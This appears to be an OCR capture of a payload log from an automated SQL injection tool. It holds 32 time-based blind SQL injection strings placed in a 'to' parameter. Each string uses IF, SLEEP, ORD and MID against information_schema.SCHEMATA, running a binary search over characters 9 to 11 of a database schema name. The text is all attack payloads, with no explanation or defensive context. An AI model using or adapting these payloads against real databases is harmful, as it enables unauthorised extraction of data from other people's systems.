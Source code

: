 {to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>108,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,9,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=110,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=98,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>98,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,10,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=99,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>64,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>96,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>112,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>104,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>100,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)=102,SLEEP(0.155797244898),SLEEP(0))}
{to: 1 AND IF((SELECT ORD(MID(SCHEMA_NAME,11,1)) FROM information_schema.SCHEMATA  LIMIT 2,1)>102,SLEEP(0.155797244898),SLEEP(0))}